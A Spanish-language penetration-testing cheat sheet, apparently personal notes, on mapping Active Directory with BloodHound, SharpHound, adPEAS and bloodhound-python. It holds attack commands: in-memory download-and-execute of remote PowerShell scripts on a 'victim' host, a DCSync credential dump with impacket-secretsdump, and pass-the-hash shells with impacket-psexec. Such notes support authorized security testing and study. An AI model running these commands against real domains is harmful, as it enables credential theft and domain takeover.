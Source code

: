 # Bloodhound 

Tags: #AD #BloodHound #SharpHound #Kali #Parrot 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ neo4j console                            # Iniciar neo4j por el puerto local '7474'
❯ neo4j console &> /dev/null & disown      

❯ BloodHound                               # Ejecutar Bloodhound 
❯ BloodHound --no-sandbox & disown         

Notas: 
	1. La versión de Neo4j '4.4.26' funciona con Bloodhound '4.3.1' 
	2. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j', despues, colocar una nueva passwd 'neo4j1' y conectarse al 'Bloodhound'
	3. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Identificar lo siguiente en BloodHound:
	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All     


Notas: 
	1. Si se ha instalado 'BloodHound' con 'apt' se debe de usar 'SharpHound.exe' que se encuentra en la ruta de instalacion del BloodHound para que se puedan cargar los datos 
	2. Recolectar la información en la maquina victima Windows y obtener un archivo '.zip' para agregarlo a 'BloodHound'
```

## ADPeas 

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Notas: 
	1. Al usar ADPeas para hacer la recolección ejecuta 'SharpHound' automaticamente
```

## Subir Data por Python a BloodHound

```bash
❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Notas: 
	1. Importamos todos los archivos que fueron generados en formato 'Json'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```
